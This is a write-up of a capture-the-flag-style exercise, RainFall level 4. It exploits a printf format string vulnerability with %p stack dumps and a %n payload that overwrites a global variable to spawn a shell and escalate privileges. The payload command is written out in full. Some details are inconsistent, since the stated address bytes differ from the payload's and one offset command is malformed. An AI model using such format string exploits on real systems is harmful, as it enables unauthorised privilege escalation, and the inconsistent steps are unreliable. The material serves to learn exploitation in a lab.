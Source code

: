 # Level4

## Objective

The goal of Level 4 is to escalate from `level4` to `level5` by exploiting a format string vulnerability in the `level4` binary. By the end, you should be able to read the password for `level4`.

---

## Step 1: Examine the Binary

After switching to `level4`:

```bash
level4@RainFall:~$ ls
level4
```

Running the binary:

```bash
level4@RainFall:~$ ./level4
Hello
Hello
```

The program simply echoes back what we type, but suspiciously uses `printf()` directly with user input.

---

## Step 2: Investigate with `ltrace`

```bash
level4@RainFall:~$ ltrace ./level4
printf("\n"
)                                     = 1

```

We see that `printf()` is called **without a format string**, which means our input is treated as the format string itself.

---

## Step 3: Test with Format Specifiers

```bash
level4@RainFall:~$ ./level4
%p %p %p %p
0xbffff744 0xb7fd0ff4 0x80484b7 0x25207025
```

We can dump stack values using `%p`. This confirms a **format string vulnerability**.

I'm sure you want to understand whats the point here. The `%n` reads the input and write the number of bytes he read right after.
Yes, if we make him read a sequence of chosen numbers he will possibly over-write the number corresponding. (to an adress maybe ?)

---

## Step 4: Lets try to disass functions.

We found two functions, `p()` and `n()`.
* **`p()` uses printf,
* **`n()` reads our input,
      calls `p()`, 
      gives a value to m (a global variable empty so far) [0x8049810], 
      compare m with 0x1025544, 
      if m != jump to an exit, 
      else run `/bin/sh`

The goal here is clear give m the right value to pass the cmp and execute the syscall.

---

## Step 5: So what's the expected input?

We want to overwrite a global variable called `m` that controls access to the target function. The program wants m to be equal to `16930116` in decimal.

Therefore, our goal is to use `%n` to write the value `16930116` into the memory address of `m`.

---

## Step 6: Find the ofset

```bash
python -c 'print "aaaa" + "%x" + 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
The ofset is at the 12th position, meaning that the first arg given to printf appears at the 12th position.

We inject the address of `m` into the input, followed by a format string to write `16930116` bytes before using `%n`.
Also it needs to be written at the 12th position.

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit
```

Explanation:

* `\x8c\x98\x04\x08` → address of `m` in little-endian.
* `16930112d` → prints 16930112 decimals.
* `%12$n` → our `m` address.

---

## Step 7: Run Exploit

```bash
cat /tmp/exploit | ./level4
```

We successfully overwrite `m` and trigger the hidden shell.

---

> With this, you can `su level5` using the password.








